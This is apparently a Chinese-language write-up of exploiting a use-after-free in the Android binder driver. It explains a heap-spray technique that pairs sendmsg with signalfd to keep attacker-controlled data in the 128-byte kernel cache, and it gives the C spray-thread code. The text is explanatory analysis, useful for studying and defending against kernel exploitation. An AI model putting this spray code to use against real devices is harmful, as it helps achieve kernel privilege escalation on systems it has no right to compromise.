 利用 exploit
==========

poc 不是难以理解，但 exploit 我感觉还是挺巧妙的，首先是 uaf 的漏洞，还是要堆喷, binder_node 是 128 字节大小的 cache，这里采用 sendmsg 和 signalfd 来做稳定的堆喷， 第一是 sendmsg 喷完就会马上释放，而在 google [这篇文章](https://googleprojectzero.blogspot.com/2020/02/mitigations-are-attack-surface-too.html)提到 signalfd() reallocates the 128-byte heap chunk as an 8-byte allocation and leaves the rest of it uninitialized, signalfd 会重新申请 128 字节大小，这个内容就是刚刚 sendmsg 释放的，这样就能保证 sendmsg 的内容能很好的驻留在堆中，signalfd 除了用到的几个字段几乎不会改变 sendmsg 的内容。堆喷可以写成：

```
void *spray_thread_func(void *argp) {
    struct spray_thread_data *data = (struct spray_thread_data*)argp;
    int delay;
    int msg_buf[SENDMSG_SIZE / sizeof(int)];
    int ctl_buf[SENDMSG_CONTROL_SIZE / sizeof(int)];
    struct msghdr spray_msg;
    struct iovec siov;
    uint64_t sigset_value;
 
    // Sendmsg control buffer initialization
    memset(&spray_msg, 0, sizeof(spray_msg));
    ctl_buf[0] = SENDMSG_CONTROL_SIZE - WORK_STRUCT_OFFSET;
    ctl_buf[6] = 0xdeadbeef; /* w->type value */
    siov.iov_base = msg_buf;
    siov.iov_len = SENDMSG_SIZE;
    spray_msg.msg_iov = &siov;
    spray_msg.msg_iovlen = 1;
    spray_msg.msg_control = ctl_buf;
    spray_msg.msg_controllen = SENDMSG_CONTROL_SIZE - WORK_STRUCT_OFFSET;
 
    for (;;) {
        // Barrier - Before spray
        pthread_barrier_wait(&data->barrier);
 
        // Waiting some time
        delay = rand() % SPRAY_DELAY;
        for (int i = 0; i < delay; i++) {}
 
        for (uint64_t i = 0; i < NB_SIGNALFDS; i++) {
            // Arbitrary signalfd value (will become relevant later)
            sigset_value = ~0;
            // Non-blocking sendmsg
            sendmsg(data->sock_fds[0], &spray_msg, MSG_OOB);
            // Signalfd call to pin sendmsg's control buffer in kernel memory
            signalfd_fds[data->trigger_id][data->spray_id][i] = signalfd(-1, (sigset_t*)&sigset_value, 0);
 
            if (signalfd_fds[data->trigger_id][data->spray_id][i] <= 0)
                debug_printf("Could not open signalfd - %d (%s)\n", signalfd_fds[data->trigger_id][data->spray_id][i], strerror(errno));
        }
 
        // Barrier - After spray
        pthread_barrier_wait(&data->barrier);
    }
 
    return NULL;
}

```
